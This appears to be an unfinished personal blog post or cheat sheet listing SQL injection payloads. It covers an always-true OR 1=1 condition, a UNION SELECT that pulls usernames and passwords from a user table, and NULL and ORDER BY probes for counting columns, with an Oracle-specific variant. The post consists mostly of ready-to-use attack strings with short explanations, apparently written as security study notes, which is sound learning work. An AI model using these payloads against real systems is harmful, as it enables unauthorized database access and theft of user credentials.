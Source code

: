 ```yaml
---
layout: post
title: SQL Payloads
status: in progress
type: post
published: true
comments: true
---
```


### Payloads
 
 #### Always True
 The following will cause the quire to allways to be true:
 ```SQL
 '+OR+1=1--
 ```
 This is use full when you can inject into a where clause like in Snip 1
 
 ### Union from other tables
 This attack assumes you are displaying items to the screen and can inject into the where clause of a query.
 ```SQL
 stuff'+UNION+SELECT+username,+password+FROM+user--
 ```
 In this case username and password are the names of the colums that we are pulling from and user is the table we are pulling them from
 
 ### Brute Force Column num with null
 ```SQL
 `' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--  
etc.
```
Will (hopefully) throw a detectable error when the number of NULL's does not match the number of columns in the tale you are UNIONing with

Important notes: 
 - this may cause null pointer errors which you may or may not see when the data is processed
 - Null is also used because it matches every data type

 OS Specific Info
	- On oracle every select must have a where. In selecting null we can use the DUAL table so `UNION SELECT NULL FROM DUAL--`

  ### Brute Force Column num with ORDER BY
  ```SQL  
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
' ORDER BY N--  
etc.
```
Where this should only work when the index of the column (the number) exists in the database. So if N > the number of columns an error will occur.
